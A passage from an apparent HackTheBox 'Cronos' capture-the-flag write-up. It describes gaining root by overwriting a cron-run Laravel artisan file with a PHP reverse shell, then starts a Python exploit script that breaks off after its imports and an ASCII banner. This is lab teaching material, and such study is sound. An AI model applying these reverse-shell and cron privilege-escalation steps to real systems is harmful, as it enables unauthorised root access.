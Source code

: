 ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Cronos/Untitled%2011.png)

### Poison Artesan file

We replaced the content of artisan with a php reverse shell.

After 1 min crontab run the file as root.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Cronos/Untitled%2012.png)

**HABEMUS ROOT!!!**

# Get Shell - Script Automation

This is a script in python to exploit this machine.

`cronos-getshell.py`

```python
#! /usr/bin/env python3

#### Title: Exploit Get Shell - RCE
#### Author: 0xEtern4lW0lf
#### Created: 22 Dez 2022
#### Description: GetShell - Cronos - HTB

#### ========= MODULES =========

import argparse
import requests
import socket, telnetlib
from threading import Thread
import base64

#### ========= VARIABLE =========

#### COLORS ####
RED = "\033[1;91m"
YELLOW = "\033[1;93m"
BLUE = "\033[1;94m"
GREEN = "\033[1;92m"
END = "\033[1;m "

## Set proxy [OPTIONAL]
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

#### ========= FUNCTION =========

## Banner
def banner():
  EwLogo = f"""

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⣀⠠⠤⢤⣤⣶⣴⣦⣤⣤⣀⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⡞⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠛⠻⢿⣷⣄⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣄⠈⠉⠛⠿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⡯⣿⣷⡄⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠰⢾⣿⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢌⡻⢿⡆⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠝⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣷⡌⠿⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⠋⠀⣸⣧⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⡄⠁
⠀⠀⠀⠀⠀⠀⠀⢀⣾⣏⣴⠟⢻⣿⠟⠛⠶⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⢻⣿⡀
⠀⠀⠀⠀⠀⠀⠀⣼⣿⣿⣿⣴⠿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⢳⣜⣿⡇
⠀⠀⠀⠀⠀⣠⣾⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⢿⣿⡇
⠀⠀⢀⣤⣾⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⠸⣿⠇
⢀⣴⣿⡿⠋⠀⠀⠀⠀⠀⣀⣤⣶⣶⣦⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠀⠀⢸⣿⡄⡿⠀
⢺⣿⡏⠀⠀⠀⠀⢀⣤⣾⣿⠿⠛⠋⠙⠻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡝⣦⠀⣸⣿⡧⠃⠀
```